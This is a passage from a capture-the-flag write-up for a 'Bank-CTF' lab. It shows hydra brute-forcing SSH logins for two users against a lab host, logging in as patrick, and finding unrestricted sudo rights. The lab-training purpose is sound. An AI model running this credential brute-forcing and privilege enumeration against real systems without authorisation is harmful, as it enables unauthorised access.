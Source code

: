Hmm... Looks like we can't gain initial foothold via WordPress.

## Initial Foothold

**Since we found 2 users: `patrick` and `manager`, we can try to brute force SSH via `hydra`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Bank-CTF]
└─# echo "patrick\nmanager" > usernames.txt
                                                                                                           
┌──(root🌸siunam)-[~/ctf/thm/ctf/Bank-CTF]
└─# hydra -L usernames.txt -P clean_robots.txt ssh://$RHOSTS 
[...]
[22][ssh] host: 10.10.53.4   login: patrick   password: {Redacted}
```

**Found `patrick` SSH password!**

**Let's SSH into patrick:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Bank-CTF]
└─# ssh patrick@$RHOSTS
patrick@10.10.53.4's password: 
[...]
patrick@ubuntu:~$ whoami;hostname;id;ip a
patrick
ubuntu
uid=1000(patrick) gid=1000(patrick) groups=1000(patrick),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:72:4d:ef:1b:1f brd ff:ff:ff:ff:ff:ff
    inet 10.10.53.4/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::72:4dff:feef:1b1f/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm user `patrick`!

## Privilege Escalation

### 1. patrick to root

Let's do some enumerations!

**Sudo permission:**
```
patrick@ubuntu:~$ sudo -l
[sudo] password for patrick: 
Matching Defaults entries for patrick on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User patrick may run the following commands on ubuntu:
    (ALL : ALL) ALL
```
